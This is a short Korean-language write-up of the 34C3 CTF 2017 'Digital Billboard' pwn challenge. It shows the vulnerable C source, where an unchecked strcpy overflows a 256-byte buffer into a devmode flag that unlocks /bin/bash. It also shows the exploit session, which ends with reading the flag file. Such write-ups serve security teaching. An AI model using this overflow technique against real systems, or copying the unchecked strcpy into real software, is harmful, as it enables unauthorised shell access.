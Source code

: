 # [2017_34C3CTF] \[PWN] Digital Billboard

## Description

```
We bought a new Digital Billboard for CTF advertisement:

nc 35.198.185.193 1337
```

## Solution

```c
void set_text(int argc, char* argv[]) {
    strcpy(bb.text, argv[1]);
    printf("Successfully set text to: %s\n", bb.text);
    return;
}

void shell(int argc, char* argv[]) {
    if (bb.devmode) {
        printf("Developer access to billboard granted.\n");
        system("/bin/bash");
    } else {
        printf("Developer mode disabled!\n");
    }
    return;
}
```

`billboard.c`를 보면 `/bin/bash`를 실행시켜주는 함수가 있습니다. 개발자 모드가 켜져있으면 이를 실행시키는데, `set_text` 함수의 `strcpy`를 통해 버퍼오버플로우를 발생시키면 개발자 모드를 켤 수 있습니다.

```c
struct billboard {
    char text[256];
    char devmode;
};
```

256 바이트를 초과시키는 값을 넣으면 `devmode`가 켜집니다.

## Exploit

```
*
* Digital Billboard
*
We bought a new digital billboard for CTF advertisement.

Type "help" for help :)
> set_text aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Successfully set text to: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
> devmode 
Developer access to billboard granted.
cat flag.txt
34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN
```


